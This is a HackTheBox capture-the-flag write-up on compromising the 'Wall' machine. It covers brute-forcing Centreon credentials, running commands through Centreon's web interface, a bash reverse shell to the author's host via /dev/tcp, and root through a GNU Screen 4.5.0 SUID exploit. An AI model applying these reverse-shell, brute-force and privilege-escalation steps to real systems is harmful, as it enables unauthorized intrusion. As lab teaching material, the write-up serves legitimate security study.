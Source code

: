 ```yaml
---
layout: post
title: HackTheBox Wall (10.10.10.157) Writeup
description: >
  Hackthebox Wall Writeup
image: /assets/img/wall.png
---
```


<center><h3>Summary</h3></center>

- Use <b>curl</b> to perform a <b>POST</b> request to reveal a hidden directory
- Bruteforce the login credentials using <b>bash</b> and a <b>python</b> script
- Use the web interface to execute commands on the System to gain a reverse shell
- Exploit <b>GNU Screen 4.5.0</b> to get a root shell
<br>

First start with an Nmap Scan

```
# Nmap 7.80 scan initiated Fri Sep 20 15:45:55 2019 as: nmap -sV -sC -p- 10.10.10.157
Nmap scan report for 10.10.10.157
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 15:46:43 2019 -- 1 IP address (1 host up) scanned in 47.73 seconds
```
Only 2 ports open. Lets start with port 80. Navigating to <b>http://10.10.10.157</b> I are greeted with an apache default installation

![home.png](../../resources/adb482f4ab6e4149a0ad7f07ba13e679.png)

Next I performed a <b>gobuster</b>. It only spit out a few results.
```
# gobuster dir -u http://10.10.10.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.157
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/09/21 18:48:24 Starting gobuster
===============================================================
/aa.php (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
```
Checking out each result yields not much that can help me. Only the <b>monitoring</b> seemed useful since it prompts us for a Username and Password to log in with. I tried guessing the credentials but had no luck so I moved on.

![monitoring.png](../../resources/d44511721b4a41d19b370711401e1206.png)

Next I did a basic <b>Nikto</b> scan to see what it would pick up. Nothing amazing was found but it did tell me which <b>HTTP Methods</b> are alloId

```
# nikto -h http://10.10.10.157
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.157
+ Target Hostname:    10.10.10.157
+ Target Port:        80
+ Start Time:         2019-09-21 18:52:22 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 58cb1080cb0d2, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ AlloId HTTP Methods: OPTIONS, HEAD, GET, POST
+ 7863 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-09-21 19:00:56 (GMT-4) (514 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Using this info I used <b>curl</b> to send requests to each result from <b>gobuster</b>. Eventually I found something. Sending a <b>POST</b> request to <b>http://10.10.10.157/monitoring/</b> reveals another directory <b>/centreon</b>.
```
# curl -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>I should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
Navigating to <b>http://10.10.10.157/centreon</b> I are greeted with a login page. It is running Centreon v19.04

![login.png](../../resources/20a8fe81bb51454abfce84ebe0fd050b.png)

Doing a quick google search will reveal a *[RCE exploit](https://www.exploit-db.com/exploits/47069)* for this version of <b>centreon</b>.

![rce.png](../../resources/b09073c95e5c45b7a275419d605626b9.png)

The problem with this exploit is that it requires user credentials to work so first I decided to combine a bash script with this python script to bruteforce the login credentials. I used <b>admin</b> as the username.

<b>Bash Script</b>
```
cat /usr/share/wordlists/rockyou.txt | while read line; do python3 47069.py http://10.10.10.157/centreon admin $line 10.10.14.21 10001;sleep 0.5; echo password=$line; done
```
After letting that run for a bit I see that it tells us the password is <b>password1</b>
```
[+] Login token is : 2616bdbc1dddb74f1cbe25dd638be366                                                        
[+] Logged In Sucssfully                                                                                     
[+] Retrieving Poller token                                                                                  
47069.py:56: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for
 this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a diff
erent virtual environment, it may use a different parser and behave differently.                             

The code that caused this warning is on line 56 of the file 47069.py. To get rid of this warning, pass the ad
ditional argument 'features="lxml"' to the BeautifulSoup constructor.                                        

  poller_soup = BeautifulSoup(poller_html)                                                                   
[+] Poller token is : 1362243211de62f028c5350e4782ddc4                                                       
[+] Injecting Done, triggering the payload                                                                   
[+] Check your netcat listener !                                                                             
password=password1
```
For some reason I couldn't get the RCE to work and open up a reverse shell for me so I had to find another way. I did this by logging into the <b>centreon</b> web app using the credentials I brute forced. I then navigated to <b>Configuration > Commands > Miscellaneous</b> where you will see this.

![command.png](../../resources/2aa3711c1d8d4a09bab0ba1103822e1e.png)

Now to get my reverse shell I was unable to just type a <b>nc</b> command into the box to connect back to me, I had to do an extra step. First I created a bash script file on my kali machine that contains the command for the reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.21/10000 0>&1
```

I then used <b>wget</b> from the web console combined with a <b>python SimpleHTTPServer</b> to download the file onto the box. Hit the small blue button to execute the command.

![wget.png](../../resources/7141b4ca40694e6e9eebcce329779ffc.png)

If done correctly you should see the file get downloaded from the <b>python SimpleHTTPServer</b>
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.157 - - [21/Sep/2019 20:07:41] "GET /shell.sh HTTP/1.1" 200 -
```

Now with the file on the system, I can see up our reverse listener
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```
And to trigger the shell just go back to the web console and execute the command <b>bash shell.sh</b>.

![execute.png](../../resources/61bb19e311ee4e0f95d37bd2f80b803c.png)

If everything works you should see a shell spawn
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.157.
Ncat: Connection from 10.10.10.157:52120.
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

Now the <b>user.txt</b> file is stored in <b>/home/shelby/</b> but I dont have the permissions to read it. Doing some quick manual enumeration did result in me finding much so I decided to use the <b>LinEnum.sh</b> script. I copied the script over to the box using the same method as <b>shell.sh</b> but this time I executed <b>wget</b> from the command line inside the shell.

Reading through the output of the script, there is and <b>SUID</b> file that stands out.
```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
A quick google search will reveal *[this](https://www.exploit-db.com/exploits/41154)* exploit. I once again copied the exploit over to the box using the same method. I then run the exploit and instantly become the root user. I run a <b>whoami</b> to confirm this. From here you can just grab both the user and root flags
```
$ bash screenroot.sh
bash screenroot.sh
~ gnu/screenroot ~
[+] First, I create our shell and library...
[+] Now I create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```

